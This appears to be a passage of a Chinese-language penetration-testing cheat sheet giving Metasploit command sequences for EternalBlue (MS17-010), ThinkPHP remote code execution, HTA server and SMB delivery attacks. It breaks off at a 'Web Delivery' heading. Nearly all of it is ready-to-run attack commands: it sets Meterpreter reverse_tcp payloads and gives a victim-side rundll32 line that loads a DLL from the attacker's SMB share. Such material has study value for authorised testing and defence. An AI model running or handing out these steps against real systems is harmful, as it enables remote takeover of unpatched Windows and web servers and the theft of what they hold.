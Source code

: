 ***

##### 0x01 windows漏洞利用模块(ms17-010)

搜索：`search ms17-010`

利用：

```sh
use exploit/windows/smb/ms17_010_eternalblue
set rhosts 192.168.64.136
check   // 检测漏洞是否存在
run //执行攻击上线
```

##### 0x02 Linux - Thinkphp-RCE

```sh
use exploit/unix/webapp/thinkphp_rce
set rhosts 192.168.64.129
set rport 9000
set srvport 38080
set lhost 192.168.1.129  // 攻击机出网地址
set lport 4566 // 监听端口
set ReverseListenerBindAddress 192.168.1.129 //要在本地系统上绑定到的特定IP地址
run
```

##### 0x03 HTA Web Server

通过windows自带的hta执行工具建立连接

```sh
use exploit/windows/misc/hta_server
set payload windows/x64/meterpreter/reverse_tcp
set srvhost 192.168.1.129
set target 1
run -j
```

##### 0x04 SMB Delivery

通过smb服务暴露payload

```sh
use exploit/windows/smb/smb_delivery
set payload windows/x64/meterpreter/reverse_tcp
set srvhost 192.168.1.129
set lport 5577
exploit -j

# 被控端执行
rundll32.exe \\192.168.1.129\mBqd\test.dll,0
```

##### 0x05 Web Delivery
